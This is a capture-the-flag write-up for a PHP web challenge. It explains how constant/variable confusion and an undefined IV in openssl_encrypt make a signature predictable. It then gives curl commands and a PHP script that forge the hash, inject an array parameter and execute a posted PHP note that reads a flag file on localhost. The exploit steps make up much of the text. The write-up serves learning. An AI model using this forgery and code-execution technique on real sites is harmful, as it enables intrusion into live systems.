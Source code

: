 # certay-revenge

**Description:**  
_“Probably you need to understand our language to get some of the superpowers?”_  
But it’s fixed now.

---

## Overview
The website contains the following PHP files:

- `login.php`
- `register.php`
- `dashboard.php`
- `post_note.php`

After registering and logging in, a user is shown a textarea. However, submitting any text appears to do nothing.

Let’s dive into the source code for more details.

---

## Source Code Analysis

- The `login.php`, `register.php`, and `post_note.php` files contain no significant vulnerabilities.
- The interesting logic lies in the `dashboard.php` and `config.php` files.
- The `config.php` file contains a dangerous function, which becomes critical in the context of the dashboard.

From `dashboard.php`, here are the notable code snippets:

```php
define('yek', $_SESSION['yek']);

function safe_sign($data) {
    return openssl_encrypt($data, 'aes-256-cbc', KEY, 0, iv);
}

custom_sign($_GET['msg'], $yek, safe_sign($_GET['key'])) === $_GET['hash'];
```

---

## Technical Insight

### `define` vs Variable Declaration

**`define`:**

1. Used to declare constants (immutable values).
2. Constants do **not** start with `$`.
3. Constants are global and case-sensitive.
4. Cannot be changed or undefined once set.

**Regular Variable Declaration:**

1. Used to declare variables.
2. Variables **start with `$`**.
3. Can be reassigned.
4. Scope can vary: local, global, or static.

### Issue with IV in `openssl_encrypt`

If the IV is not properly passed to `openssl_encrypt()`:
- PHP pads it with null bytes (` `) if too short.
- If completely missing or incorrect (like `false`), it can result in unintended behavior and even insecure encryption.

---

## Key Vulnerabilities

### 1. Constant vs Variable Confusion
- `define('yek', $_SESSION['yek']);` defines a **constant** `yek`, but later code uses the **variable** `$yek`, which is uninitialized.
- As a result, `$yek` becomes `null`.

### 2. Undefined IV in `safe_sign()`
- The IV parameter (`iv`) is not defined in the function.
- If `$_GET['key']` is passed as an array, `safe_sign()` returns `false`.

### 3. Weak Encryption Parameters
In the `custom_sign()` call:
- `$key = null`
- `$iv = false`

This leads to:
- Key: effectively an empty string (because `null` is cast to `""`)
- IV: 16 null bytes (because `false` becomes an empty string, which gets padded)

This results in **predictable encryption** and allows the attacker to forge a valid hash.

---

## Exploitation Steps

### 1. Register an Account
```bash
curl -X POST -d "username=attacker&password=attacker" http://localhost:8080/register.php
```

### 2. Log In to Create a Session
```bash
curl -X POST -d "username=attacker&password=attacker" http://localhost:8080/login.php -c cookies.txt
```

### 3. Post a Malicious Note
```bash
curl -X POST -d "note=highlight_file('/tmp/flag.txt');" http://localhost:8080/post_note.php -b cookies.txt
```

### 4. Generate a Matching Hash to Bypass the Check

Create a PHP script:
```php
<?php
function custom_sign($data, $key, $vi) {
    return openssl_encrypt($data, 'aes-256-cbc', $key, 0, $vi);
}
echo custom_sign("test", null, false);
?>
```

This outputs a predictable signature because both key and IV are weak.

Let’s say it prints:
```
2HB5iFgiP0Vk00CxA/ZSew==
```

### 5. Bypass the Signature Check
```bash
curl "http://localhost:8080/dashboard.php?msg=hello&hash=2HB5iFgiP0Vk00CxA/ZSew==&key[]=" -b cookies.txt
```

Because the signature matches, the malicious `note` gets executed.

---

## FLAG

![flag](https://github.com/user-attachments/assets/c2f5a464-cbec-4445-92a7-2663f5e0ae53)

---

**Solved with the best teammate: [Logan0x]**
